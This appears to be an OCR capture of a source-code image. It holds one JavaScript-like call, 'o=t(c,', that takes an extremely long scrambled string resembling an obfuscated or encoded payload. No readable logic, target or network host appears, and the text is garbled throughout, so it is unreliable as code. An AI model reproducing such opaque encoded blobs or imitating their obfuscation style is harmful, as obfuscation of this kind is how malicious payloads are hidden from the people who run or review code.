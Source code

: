 o=t(c,"?7cL%FRX&VOUET_(zRV%FUc%(>E_X(%&777U7&_HO%7_HT(7EU&(nU(X_FOU&c%EE7ORXFXFLF_(EOVLcXUF&&%%aTTR(cETVTF(cR{yXFRR%E77_FURXLTXOLRRc((&7&_UEF&/%O7EXO%R!VTcVUUXO%RFL7_EE%7T_OOEXFL_FcLVATTFOMRccc&VFX7&_7OOUVVTXALLUXOXV_R{U_Vc%T7RT((FTOOTRR(UTRTLVUF((E__U%XX%&OV&*L&87EOT%T7VVFTTXEROO&%%&E%UUVURBLO(RETVX_(UTX_%X7JcTGOTSF%%vcX(FUTc%(RULXE%FF7L&bTE_O%FE7X(FUX&O%TcLXTFT*ETFV_UUVFRFcX(UEL&(FOE(EEUAcOcXu7TcV_RLcFOVE7&7g%.7T(OERTT%O7RLcE(Fc%(REcX_%L+_TE%!HTE(V&R7XXF%c((VUL&VFVOEXULUI%ET_LE#VURF7((FEF%%L&OOXTLVtcEUTFTcVOF_T&ELU(&E(E_&TROdXZEUVcFUV%;&L7GUL&FcTTU%RELF(_7%(VEE&F7O(OT_U&XE7E;OTTOXFTLL(7UEcL(VUcXU%%FLL(7cTsF7LTLF(7EEL_L%7F_RO%XM%ROzX_c((&E7EUE&VMF%E_UVUF&c(c_XEVV%FUcT_EUc&EFEEEE&UFXR%c(TRFLO(%UT&RVm&TFF7VVL&sRR%=Yc&pRUFX7E(RU77&T(O&X7LO=LEEVFF_cO(UUV&c%UF&%c7LT_ORc77*NFT7&_RcUO&V%V7cTU_OE_O&RE_&_FEVVcF&U&&X%X74TV_LT(O&F_cV(OOY&OF_UR&X%F+_TX_FUE&c7U0T+:Ec&3FR7F_T%R7RTFV_RX&LF_L%.7UV&(sR(XEXV79TTOVERFc_%OcU(cU_&Xn%6LXVFnr&T7VOO%O7RVcTOXV%&&FtEUEXU%RXLTU&OVVVRLU(&E%_7X_^(ETTO%XYLVURUXcO(7UO&L%E7FT_TFUkLE7&EUV%FTXVRL7V(FUT%cc(yOTOVERLLTTRE}V7FEc%EFUO&R%L7XR(L_(_EXVmV(V%%E7U_OOUXT%E7%RT%N(EEF&_OO&FFF7XT_U&cT7(7cT%VcR&cX&(FU7__XUyT#UUX_%%icT&LcN%E7&OFLFTFOcc_RR;FV%7nXEV%T%E(*&UFX7O_LOE_&OXR_L_(OE_c_(VUT&R%(RE%O7XT&O_C&T(VXR5cVLL7(_&VOX(%T77T_OLXTL7TXTLVUR%c&(8%_c%TTORR(XVXRL_<cXEREFL7&(cRVRcF17__XOcR%EUV_FOcL_EYL_TUUXVL(0UE_VFX7c((_ERV%_TUOXE%F9_cVr7EEVX7U7OE7FVcX_&U7XO&F&7%_U_UOV(RULX&TF_(%&V7(UF%UT77cV(X7c_(XEJETE%XE%U7E_%F(FUL%(UE(V7(&ER&XFN7VcF.E_cV7XF%%(UEVcT(VUE&F%_RT%V7E_XVEXZTJVUF(c&(7oT(OUU&X%cOOXULVocEU_XEc&X7_j&_OUEX%%OoTE(LOj_EVVcFUX7%_cV(LOT&LFLTcOTV_RUcV((ETcF(rU%XT%RF&%F3cT7V&((TX&_FXc0cOcX_(ULcT7&;HTOOFRLc((UXFR(FE7F_EUR __7VTRRc(FcLu(XUF&F%OE_EgULXFLLhVE&L#+7U(&&F7RTF77U_EF_F3%L;FELVVF&EK&(%(7&_7(O_cO_XV___UE(O6RCU_VU%T7RT(_TTTOLXXL7UFU7VUF7cT(FRU%_(T7%T_OEc77T3LUTVEFEUO&_%V7cTU_XTEO%RVLTdLU(&XeE(&_TOOX(LOOFXRL%(TERTEE7&F%_7(_7RFRc%R7XTXLFbLE%&TFRX7%V7OT_&FXU%&77RO%X(VEc&UVFVcFO7_V&&XRU%FSV&FXtRRLL(EXcR_%V7VTUOcXELR(_RRLV(FU_&XOLX_%LTOUROERX%L_UT7&(F&cS&&Fc7X_gOVUOVER(LRVVXBc&(7UOE%E7&V%TEXELOTX7LV(VXTXRR%Lc(UURX&T_OFR_LXQ<EVVcX(R%()EXX(%&777U7&_9O%7_,T(7EU&(DU<7T_UV&LLT7L_LLRbLEF&_FXR%%_7&TEUVXV%OOcXRL7(OELTVU_V7%OT(UUU%X%%cZ%ULV_FOL%&TFX7E_FO_EVO7XcLRV_RUcT(RU(T&UTXU%R77U_OckOTEVVRccU%Xcc_XX_F_%O7TTUX_X%c()URLLF(cUU&%VLX(Fc7CT_VUX7_E_7ETVVF%UETO%U7%TTTXO6X7LVQ7EEV.FO7__UU&XU%O7LTTOcRVL%(EE/&TF&LXrOELOE%%F7TROT&7RXLXT&UEVV7UcLO(UVX7cR_UEcRFR_LcTX&O%(FVCUUUOXFXc&_RTEOXFELu__U(&cFR(cE(UUX&7ET%UVVFR_L&UTEcF7c_z7T&VcXL(_YVEOXVR_E7VcFM7V_c_T_VURcR7O(VELV(FRc%_RF7c7_fOVXc&7RFL&(UX(R_RLc(_EEJ7&_VOXX>LVF%Ly#XEcVOq()U(FOU&X%(O&XcLXA EVT&E%VXFFUV&&%&77TO(aETVERUc&UAO&V%FpUX&(%R8(T&(RT&VXR7LXO_O_&7FT7X_TR%FR%V4UEVV(F_ERVLFF7__Xx%_7OXcUcX(_TTLc(EE7&OFLRV%R7X_F%Lu_TcVUR%&7F(LL(%UR7T(cOEXFL_FULFdFEXVURLc((OR(REFoEOEROEX_T7O7R*cV(c(E_&U7RV%%HU_FOLXcLOV&RTcX(jUVE%El&T(T_O_7VVR&LVk7XER&FO7&(X%E7&TUO%RT&cR_cU(cE_&&_(ELX_%X707O7XT(OL7T7&(&E&%7LLc7_,UXR(TOOFRVLc(U7X}7UXVLFUU%XU%LuETFE(RO%7(VEc&UO&&cFc7%_&UAXE%XUETVVT7X7L__ULLU7FUb&UL(Q&T7TUT&OxR%T_TVU7&cF.eT_LU%cR7X(VEEVL7L^%T%V_7O_OOVXcLUFcLEP&EE&VFT(E(cU(&&_7U7XyLVuc7!_XOT%RLFcO(RUL&X%(O&XTLX!+EVTLTAV&FETRTcUT&7L(7FT%OORUc&(_FEcT_UU%XT&V&&LO70TEVO7E7X_(UO&F_EUXXU%%jTcVaOT7VTRRERVEFF7__X(7__URXO(%(7TUOcR2cO(_U%LEcT7T_X%L77TcVUR%XOF(cTT_Uc&RF&77X&%c-XTaVVU{&ER7cc&VFX7&_7OOUFU7X___TVTFVER7U_&V%T7RT((FTRORR&L7V&RFcX(dUVEFULXF%U:TT%VEj%E_VLFEcFLc7&(%OO7F_FO%RTLR%LcV:LEF%Lc_7OT(UVX%TEOERUL%(TP&.%T7%7LXc&_(UzXL%UOLXXLc(UE%TFUXV%FRcFT(OXcE7&((TOO%RFcX&_R77T_RO(UOUR&L(L_(T%OLRL_5EEUL&V%VUk&FL(#&T7TUT&OoR%T_TXEF&F%_EUE1OcXEL%>OR%c((LUE&FVw&R%ctU_UL_%VETVRF(VmRFc_(LU(%(;TTR_cVOXV(V(UERVOFXcT_LU(&R%77XT7ORR_LT(XEVV&7U7V__UF%NcE_&U6O(%R7ETc&&XVFg7R_FUFX_%LTWTXV%RFLLUTVV&EF&cOE7UR&cL(7LTUF(RRL&_TF&c%_XUyXVV7X(LE